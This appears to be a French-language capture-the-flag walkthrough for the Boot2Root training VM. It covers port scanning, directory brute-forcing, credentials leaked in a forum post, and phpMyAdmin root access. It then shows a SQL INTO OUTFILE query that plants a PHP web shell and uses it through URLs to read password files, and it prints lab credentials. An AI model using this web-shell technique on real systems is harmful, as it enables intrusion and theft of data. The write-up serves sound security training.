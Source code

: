 ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

The first step is to understand what we can gain access to and where is it located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap <IP>.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/website.png)

--------------------


Avec nmap on recupere les ports, il y a un http et un https sur l'adresse IP 192.168.99.100

On recupere un script appelle DIRB qui a partir d'un dictionnaire teste la presence d'elements dans l'arboressence.
https://sourceforge.net/projects/dirb/i


En testant ./dirb https://192.168.99.100/ wordlists/common.txt -w

on se rend compte qu'il y a :
un forum auquel on peut acceder par navigateur
un webmail https://192.168.99.100/webmail/src/login.php
un phpmyadmin


Il y a un lien qui liste les users https://192.168.99.100/forum/index.php?mode=user

lmezard a un seul poste dans : "Probleme login ?"

dans probleme login il y a une entree etrange --> Failed password for invalid user !q\]Ej?*5K5cy*AJ from
On vois quil existe un user "root"
il y a aussi un "Oct 5 14:54:29 BornToSecHackMe sudo: admin : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/bin/sh" ?

Si on essaie !q\]Ej?*5K5cy*AJ en password pour lmezard ca passe.
on peut recuperer son mail --> laurie@borntosec.net

On va le tenter dans le webmail avec le meme password et ca passe ouuuuuh!!!!

IL Y A UN MESSAGE DB ACCESS !!!

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
Bouyaaa !!!

il y a aussi les mails de
ft_root@mail.borntosec.net
qudevide@mail.borntosec.net

En magouillant un peu sur le login de phpmyadmin
login: root
pass: Fg-'kKXBj87E:aJ$

CA PASSE

On suis ce tuto :http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

Ils nous donnent:
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/cmd.php”;

Cela permet d'inserer un shell basique qui prend des commandes via url, mais il faut trouver ou le placer

Vue que c'est un site web il sera en  /var/www/html/

en tentant les differents sous dossiers de dossier de forum (obtenus via DIRB)
on arrive finalement a placer dans template_c

SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";

A partir de la on peux lancer des commandes via le navigateur, notament ls pour comprendre l'arborecense

https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home

https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password
Montre un dossier LOOKATME avec dedans un Login/Password :
lmezard:G!@M6f4Eatau{sF"

en se connectant en ftp on peut entrer ce password et acceder a un README : "Complete this little challenge and use the result as password for user 'laurie' to login in ssh"

et a un fichier fun

Ce fichier fun contiens des instructions:




Password SSH de Laurie

laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

